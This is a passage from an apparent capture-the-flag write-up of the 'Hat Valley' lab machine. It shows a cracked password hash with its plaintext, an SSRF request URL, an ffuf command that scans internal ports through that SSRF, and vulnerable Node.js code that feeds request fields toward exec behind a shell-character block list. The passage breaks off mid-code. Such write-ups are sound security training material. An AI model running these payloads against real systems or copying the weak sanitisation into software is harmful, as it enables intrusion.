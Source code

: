 We can crack one hash and login as christopher.
```
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1 - chris123
```

#### SSRF
Looking at requests, we see that there is a /api/store-status call.
```
/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22
```

We can perform SSRF here trying to access 127.0.0.1:8080. We find this port by checking the console on main website.

Enumerate ports automating this process with python on exploit.py and find port 3002. There is the API documentation.

IppSec automated with ffuf:
```
ffuf -u http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:FUZZ%22 -w <( seq 1 65535) -mc all -fs 0
```

#### LFI
`/api/submit-leave` seems promising since it uses 'exec'.
```javascript
app.post('/api/submit-leave', (req, res) => {
  const {reason, start, end} = req.body
  const user_token = req.cookies.token
  var authFailed = false
  var user = null

  if(user_token) {
    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)

    if(!decodedToken.username) {
      authFailed = true
    }

    else {
      user = decodedToken.username
    }
  }

  if(authFailed) {
    return res.status(401).json({Error: "Invalid Token"})
  }

  if(!user) {
    return res.status(500).send("Invalid user")
  }

  const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]

  const badInUser = bad.some(char => user.includes(char));

  const badInReason = bad.some(char => reason.includes(char));

  const badInStart = bad.some(char => start.includes(char));

  const badInEnd = bad.some(char => end.includes(char));

  if(badInUser || badInReason || badInStart || badInEnd) {
    return res.status(500).send("Bad character detected.")
  }

```